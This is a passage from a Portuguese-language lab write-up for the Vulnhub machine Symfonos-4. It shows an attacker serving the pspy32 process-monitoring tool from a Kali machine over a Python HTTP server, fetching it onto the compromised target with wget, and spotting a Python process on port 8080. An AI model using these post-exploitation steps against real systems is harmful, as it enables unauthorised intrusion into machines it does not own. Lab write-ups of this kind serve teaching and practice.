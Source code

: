 
## Analisando os processos que estao sendo executados

* Baixamos na kali o pspy32, pois a arquitetura do alvo e de 32 bits (uname -a ou arch), e enviamos para o alvo

Na Kali
```bash
sudo python3 -m http.server 80
```
No alvo 
```bash
wget 192.168.150.110/pspy32
```

* Ao executar o PSPY podemos verificar que esta sendo executado algo com o python e interagindo com a porta 8080 da maquina.

![](/assets/img/Vulnhub/Symfonos-4/pspy32.png)
